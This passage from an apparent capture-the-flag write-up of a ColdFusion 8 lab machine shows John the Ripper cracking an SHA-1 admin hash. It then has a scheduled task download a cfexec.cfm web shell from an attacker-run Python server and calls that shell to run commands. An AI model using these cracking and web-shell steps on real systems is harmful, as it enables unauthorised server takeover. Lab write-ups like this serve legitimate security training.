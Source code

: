 
Most people prefer hashcat, but I'm going with John this time to crack this SHA-1 hash.

```
└─# john --format=Raw-SHA1 hash.log
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 SSE2 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
happyday         (?)
1g 0:00:00:00 DONE 2/3 (2021-03-04 15:08) 7.692g/s 11200p/s 11200c/s 11200C/s happy123..harley1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```
The hash is cracked rather quickly.  We have credentials now:
admin
happyday

Google:
coldfusion 8 reverse shell
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

We need to generate a shell to serve via a webserver.  As it's a ColdFusion site, it makes sense to use cfexe.cfm, which is there under /usr/share/webshells/ in Kali.  Start a python web server listening on port 80 to serve the cfexec.cfm web shell.

```
# python3.9 -m http.server 80                                                                                                         1 ⨯
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.41 - - [05/Mar/2021 20:18:37] "GET /cfexec.cfm HTTP/1.1" 200 -

```

In ColdFusion, start a scheduled task and set it to load the cfexec.cfm script.

After creating the schedled task and havig it pull the cfm file (as verified by the python server output), call the script:

https://10.10.10.11:8500/CFID\cfexec.cfm

Test by running a command such as systeminfo.

![cfexec.cfm](arctic_cfexe_cfm.png) 
